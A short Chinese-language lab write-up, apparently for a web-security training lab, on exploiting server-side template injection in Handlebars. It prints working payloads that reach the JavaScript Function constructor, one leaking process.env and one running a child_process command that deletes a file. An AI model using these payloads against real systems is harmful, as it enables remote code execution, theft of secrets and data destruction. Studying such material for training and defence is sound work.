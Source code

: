 #### 4. Server-side template injection in an unknown language with a documented exploit

在网上搜到了这个payload。[漏洞挖掘：Handlebars库 模板注入导致RCE 0day - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4695#toc-2)

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return JSON.stringify(process.env);"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

但是试了好多东西，都没有找到如何调用系统方法。

看了下官方的payload：

```
require("child_process").exec("rm /home/carlos/morale.txt")
```

这里是创建一个子进程，然后执行命令。

```handlebars
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
